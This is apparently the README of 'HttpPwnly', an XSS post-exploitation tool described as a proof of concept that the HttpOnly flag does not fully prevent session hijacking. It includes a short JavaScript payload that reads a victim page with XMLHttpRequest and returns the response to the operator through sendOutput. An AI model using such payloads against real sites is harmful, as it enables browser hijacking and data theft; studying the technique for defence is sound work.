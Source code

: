 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install -r requirements.txt 

## Demo:
https://www.youtube.com/watch?v=spfrmsbhBaw

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```
